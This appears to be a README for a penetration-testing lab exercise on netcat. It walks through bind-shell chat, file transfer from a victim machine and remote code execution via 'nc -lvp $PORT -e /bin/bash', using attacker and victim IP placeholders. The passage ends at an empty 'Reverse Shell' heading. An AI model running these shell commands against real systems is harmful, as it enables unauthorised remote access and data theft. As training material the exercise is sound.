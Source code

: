 # Exercise: netcat (nc)


## Setup

The default `netcat that comes with AWS does not support the `netcat -e /bin/bash` option. For now, `exercises/aws/bin/{netcat,nc} is used. It came from Kali Linux.

```bash
HOST=Attacker's machine IP
RHOST=Victim's machine IP
PORT=4444
```

*Note: We use HOST/RHOST to stay align with naming conventions in Metasploit*

## Bind Shells

### Chat

```bash
# Victim's machine
nc -lvp $PORT

# Attacker's machine
nc $RHOST $PORT
```

### File Transfers

```bash
# Victim's machine
nc -lvp $PORT < foo.zip

# Attacker's machine
nc $RHOST $PORT > foo.zip
```

### Remote Code Execution

```bash
# Victim's machine
nc -lvp $PORT -e /bin/bash

# Attacker's machine
nc $RHOST $PORT
# run commands remotely here
```

## Reverse Shell